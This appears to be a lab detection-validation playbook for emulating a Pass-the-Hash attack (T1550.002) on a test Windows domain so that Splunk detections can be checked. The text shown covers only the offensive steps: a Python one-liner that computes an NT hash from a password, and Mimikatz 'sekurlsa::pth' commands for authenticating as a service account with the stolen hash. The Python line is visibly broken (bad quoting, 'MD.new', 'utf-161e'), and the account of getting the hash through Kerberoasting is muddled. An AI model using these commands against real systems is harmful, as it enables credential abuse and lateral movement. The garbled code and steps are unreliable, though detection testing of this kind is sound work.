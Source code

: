 # Detection Validation Playbook: Pass-The-Hash (T1550.002)

This playbook documents the TTP emulation, log analysis, and response procedure for a Pass-the-Hash (PTH) attack, ensuring detection logic is validated against observed artifacts.

Field | Detail |
------|--------|
TTP | T1550.002 - Use Alternate Authentication Material: Pass-the-Hash |
Objective | Validate the detection and response capability for lateral movement using stolen NTLM hashes, specifically looking for Logon Type 9 and non-standard process chains. |
Environment	| Target Endpoints: Windows Client Systems |
Tools Used | Mimikatz, pycryptodome (Python lib), Splunk |

# 1. Offensive Steps

This section documents the precise steps taken to emulate the attacker's TTP, resulting in the generation of detectable log data.

## 1.1 Pre-requisites

- Make sure to install the required tools and libraries (Mimikatz, pycryptodome)

## 1.2 Hash Acquisition

**Goal:** Already obtained the hash file using kerberoasting. now the goal is to extract NTLM hash from the obtained hash file.

Install pycryptodome and compute NTLM hash

![Install and Run pycryptodome](../screenshots/install_cryptodome_compute_nthash.png)

```bash
# Run from the compromised endpoint i.e. member01@lab.local
python -c "from Crypto.Hash import MD4; pw="Abcdefg@123"; h=MD.new(); h.update(pw.encode('utf-161e')); print(h.hexdigest())"
```

**Output:** gives the computed NT hash `ea9982bb37515115ed9365d727fb5f66`

## 1.3 Lateral Movement using NT Hash

**Goal:** Authenticate and execute a process on a windows endpoint without the plaintext password, using stolen NTLM hash.

Install Mimikatz - Refer here for Mimikatz Installation

Run the following commands:

```bash
cd "C:\Users\member01\Downloads\mimikatz_trunk\x64" #navigating to mimikatz folder
.\mimikatz.exe
privilege::debug
sekurlsa::pth /user:service_account /domain:lab.local /ntlm:ea9982bb37515115ed9365d727fb5f66
```





